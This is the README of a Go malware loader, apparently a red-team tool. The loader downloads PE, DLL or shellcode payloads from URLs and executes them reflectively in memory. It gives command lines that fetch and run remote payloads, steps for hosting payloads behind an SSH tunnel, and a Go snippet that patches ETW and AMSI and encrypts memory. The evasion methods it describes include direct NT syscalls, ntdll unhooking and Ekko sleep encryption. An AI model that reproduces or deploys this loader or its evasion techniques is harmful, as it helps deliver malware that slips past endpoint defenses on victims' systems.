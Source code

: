 # go-loader

a pe/dll/shellcode loader that downloads and executes files from urls in memory

## usage
![demo](https://github.com/user-attachments/assets/9f45cf71-1578-4393-94d6-7cc5475870d3)


```bash
# execute pe file from url
go run main.go -pe -url https://example.com/calc.exe

# execute shellcode from url  
go run main.go -shellcode -url https://example.com/shellcode.bin

# execute dll from url with specific function
go run main.go -dll -url https://example.com/mydll.dll -func MyFunction

# build
go build -o loader.exe cmd/main.go
```

## technical details

this project implements full reflective loading of pe files, dlls, and shellcode directly from downloaded byte arrays in memory without ever touching disk. the core functionality includes complete pe parsing with dos/nt header validation, section mapping with proper memory permissions (rx for .text, rw for data), base relocation processing for aslr compatibility supporting both 32-bit (image_rel_based_highlow) and 64-bit (image_rel_based_dir64) relocations, and comprehensive import address table resolution including forwarded export handling that can parse "dll.function" and "dll.#ordinal" forwarder strings and resolve them across multiple dlls. the main technical challenge was go's absolutely evil garbage collector that would intermittently move or collect our downloaded buffers during pe/dll execution, causing status_invalid_handle (0xc0000008) errors and crashes. i solved this by implementing very aggressive anti-gc techniques: runtime.keepalive calls throughout execution, completely disabling gc during critical sections with debug.setgcpercent(-1), locking goroutines to os threads with runtime.lockosthread, forcing multiple gc runs before execution to clear memory, and creating dedicated pinned byte copies that stay alive throughout the entire loading process. for pe execution we allocate memory at the preferred base address when possible or use relocations when aslr forces us elsewhere, copy headers and sections correctly, fix imports and relocations, then execute via ntcreatethreadex. for dll loading we parse export tables to find functions by name or ordinal, handle complex import resolution, and can execute specific exported functions or the dll entry point. shellcode execution uses direct ntinjectselfshellcode for self-injection. the network downloader includes proper http headers for opsec and handles the downloaded data with gc-safe buffer management. all critical syscalls now go through custom nt api wrappers (ntallocatevirtualmemory, ntwritevirtualmemory, ntreadvirtualmemory, ntprotectvirtualmemory, ntfreevirtualmemory, ntunmapviewofsection, ntcreatethreadex, ntwaitforsingleobject, ntclose, ntinjectselfshellcode) instead of high-level windows apis for better opsec and edr evasion. the loader now implements ekko sleep functionality for evasive sleeping during execution - this technique suspends all threads in the current process except the main thread, encrypts the entire process image in memory using systemfunction032 (rc4), sleeps for a specified duration, then decrypts the image and resumes all threads, making static memory analysis much more difficult during sleep periods. you can also encrypt the global buffer containing the downloaded pe/dll/shellcode easily with GetGlobalBufferRegion(), see main.go for example. the syscall wrappers (now in plan9 instead of nasm) provide direct nt api access after unhooking ntdll and applying patches to bypass userland hooks, though i still had to use syscall.loadlibrary and a LOT of syscalls in ekko implementation, also a few times for import resolution since you can't avoid loading dependencies and my ldrloaddll wrapper sucks sorry guys. the loader also now offers a server that parses a payload from disk, chunks, encrypts, and sends one by one to requesting client to be reflectively loaded and executed

> ekko implementation causes intermittent segfaults during dll loading, likely due to rop chain complexity + golang.

## to use the loader
```bash
## navigate to go-server/cmd
cd go-server/cmd
## in another shell, run the tcp tunnel ssh command included as a comment in server.go
## replace the const link with the generated link
## then run the server
go run server.go
## this will generate a payloads folder, move your payloads into them
## now navigate to go-loader/cmd\
cd ../cmd
go build -ldflags="-w -s" -trimpath -o loader.exe
## then to run with a payload from /payloads
./loader.exe -pe|dll|shellcode -url http://<generated-link>/payloads/filename.exe
```

## use this pattern for a more reliable form of evasion

```go
    // import pkg/net and pkg/patch
    patch.ETW
    patch.AMSI
	addr, size, err := net.GetGlobalBufferRegion()
	if err != nil {
		log.Fatalf("[ERROR] Failed to get global buffer region: %v\n", err)
	}

	key, err := ekko.GenerateKey(16)
	if err != nil {
		log.Fatalf("[ERROR] Failed to generate key: %v\n", err)
	}

	err = ekko.EncryptMemoryRegion(addr, size, key, 1000)
	if err != nil {
		log.Fatalf("[ERROR] Failed to encrypt memory region: %v\n", err)
	}

	// we just call it again to decrypt bc symmetric 
	err = ekko.EncryptMemoryRegion(addr, size, key, 1000)
	if err != nil {
		log.Fatalf("[ERROR] Failed to decrypt memory region: %v\n", err)
	}

```

## credits

- [@timwhitez/Doge-MemX](https://github.com/timwhitez/Doge-MemX) for pe loader code that i adapted
- [@scriptchildie/goDLLrefletiveloader](https://github.com/scriptchildie/goDLLrefletiveloader) for dll loading code that i fixed forwarded functions and some other small issues
- [@scriptchildie/goEkko](https://github.com/scriptchildie/goEkko) for ekko sleep implementation
